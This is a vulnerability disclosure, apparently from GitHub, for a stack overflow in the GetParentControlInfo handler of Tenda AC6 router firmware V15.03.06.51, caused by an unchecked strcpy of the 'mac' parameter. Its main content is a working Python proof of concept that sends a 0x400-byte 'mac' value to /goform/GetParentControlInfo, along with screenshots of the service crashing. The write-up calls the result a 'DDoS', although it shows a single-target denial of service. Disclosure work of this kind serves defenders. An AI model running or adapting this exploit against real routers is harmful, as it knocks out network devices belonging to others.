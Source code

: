 # Information

**Vendor of the products:** Tenda

**Vendor's website:** [腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:** He Nan(2777256035@qq.com)

**Affected products:** AC6 AC1200 

**Affected firmware version:**  AC6V2.0RTL_V15.03.06.51

**Firmware download address:** [AC6 v2.0 固件-腾达中国](https://www.tendacn.com/us/download/detail-3794.html)

# Overview

A **stack overflow vulnerability** in the `GetParentControlInfo` function in AC6V2.0RTL_V15.03.06.51 allows an attacker to construct an excessively long value for the `mac` variable, leading to a stack overflow and potentially resulting in a DDoS attack.

# Vulnerability details

Analyzing the `GetParentControlInfo` function in this file reveals that when the `mac` variable contains an excessively long string, such as 400 consecutive "a" characters, a stack overflow occurs. This happens because the `pc_info` variables lack sufficient buffer space and overflow when the value is copied using the `strcpy` function.

![image-20250313215056727](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132150682.png)

Cross-referencing the `GetParentControlInfo` function, it can be observed that it is indeed called by the formDefineTendDa function. As a result, an attacker can cause a DDoS attack on the router.

![image-20250313220122802](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132201045.png)



# Poc

By changing the IP and token to the target router's IP and token, the attack can be successfully carried out.

```python
import requests
ip='192.168.0.34'
url = f"http://{ip}/goform/GetParentControlInfo"
 
headers = {
    "Host": "192.168.0.198",
    "Connection": "keep-alive",
    "Content-Length": "31",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.198",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.198/goform/WriteFacMac",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "password=wtfbro",
}
 
data = {
    "mac": "a"*0x400,
}
 
response = requests.post(url, headers=headers, data=data)
 
print(response.status_code)
print(response.text)

```

# Attack Demonstration

At this point, the service is functioning normally.

![image-20250312223640285](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240094.png)

The script attack was successful, causing a segmentation fault.

![image-20250312223758005](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240127.png)

The service crashed.

![image-20250312223915278](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240425.png)
